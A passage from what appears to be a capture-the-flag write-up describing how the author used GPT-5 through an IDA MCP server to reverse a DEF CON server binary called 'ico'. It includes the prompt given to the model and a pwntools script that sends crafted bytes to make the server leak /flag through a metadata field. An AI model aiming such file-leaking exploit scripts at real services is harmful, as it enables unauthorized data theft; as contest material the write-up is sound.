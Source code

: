 # MCP is too much for me
One of my teammates, mahaloz, had set up an [IDA MCP server](https://github.com/mrexodia/ida-pro-mcp) for a different challenge, viper, but hadn't had much luck in using it, however, some others were having success with pasting raw decompilation and instructions into the GPT console (lol).
The team blue water also solved 2 live-ctf challenges with agents that were just running in the background. Though less complex than most other DEF CON challenges, it was part of the inspiration.

We were about to have a team meeting, so I made a quick docker container to run the challenge so I didn't destroy my normal environment and brought up my own IDA MCP + cursor (`GPT-5` just came out and had a bunch of free tokens available through cursor) to let it run on a partially reversed `"ico"` with the initial prompt:

> You are the most amazing reverse engineer I've ever met. 
> Use the Ida pro MCP to interact and reverse the binary.
> We're looking at a server application, but we don't know much more than that.
> Feel free to ask me anything you need more information on or any important decisions that need to be made

This was my first use of `GPT-5`, and I'll say: it ran.
And it ran and it ran and it ran.
This model used the most amount of tool calls I'd ever seen, even after experimenting with `claude-4-sonnet`, `claude-4-opus`, `o3`, etc...
Eventually the meeting ended, and I was able to look at the results.
It ran for at least `12 minutes` entirely unassisted and gave us our first taste of hope.

# The Script of Disappointment

```python
from pwn import remote  # type: ignore
import os, sys, time

host = os.environ.get("HOST", "127.0.0.1")
port = int(os.environ.get("PORT", "4265"))

io = remote(host, port)

# handshake
io.send(b"\x10")       # enable
time.sleep(0.05)

# create default entry that copies /flag into "Author"
io.send(b"\x22")
time.sleep(0.05)

# request metadata bundle: Author (flag), Software, (Comment if set)
io.send(b"\x32" + b"\x01")   # 0x01 arbitrary small param

data = io.recv(timeout=2) or b""
print(f"len={len(data)} hex={data.hex()}")

# Heuristic extract: look for ASCII 'Author' then next string-ish bytes
idx = data.find(b"Author")
if idx != -1:
    # naive slice forward; adjust if you want a proper parser
    print("Found 'Author' near:", idx)
    print(data[idx:idx+256])

# clean close (optional)
io.send(b"\x11")
io.close()
```
